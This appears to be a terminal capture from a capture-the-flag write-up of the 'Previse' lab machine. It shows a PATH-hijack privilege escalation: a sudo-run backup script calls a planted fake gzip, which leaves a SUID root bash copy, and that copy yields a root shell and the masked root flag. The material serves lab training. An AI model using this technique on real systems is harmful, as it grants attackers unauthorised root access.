 ```bash
m4lwhere@previse:/tmp$ sudo PATH=/tmp:$PATH /opt/scripts/access_backup.sh
m4lwhere@previse:/tmp$ ls -l 
total 1108
-rwxrwxrwx 1 m4lwhere m4lwhere      63 Mar  3 03:03 gzip
-rwsr-xr-x 1 root     root     1113504 Mar  3 03:04 gzzcoo
drwx------ 3 root     root        4096 Mar  3 01:55 systemd-private-291eb14f1df84d53886e71baa3ee24a8-apache2.service-HTUQ4f
drwx------ 3 root     root        4096 Mar  3 01:55 systemd-private-291eb14f1df84d53886e71baa3ee24a8-systemd-resolved.service-hFyPyE
drwx------ 3 root     root        4096 Mar  3 01:55 systemd-private-291eb14f1df84d53886e71baa3ee24a8-systemd-timesyncd.service-hi0tJv
drwx------ 2 root     root        4096 Mar  3 01:56 vmware-root_879-4013723248
m4lwhere@previse:/tmp$ /tmp/gzzcoo -p
gzzcoo-4.4# whoami
root
gzzcoo-4.4# cat /root/root.txt 
745b****************************
```
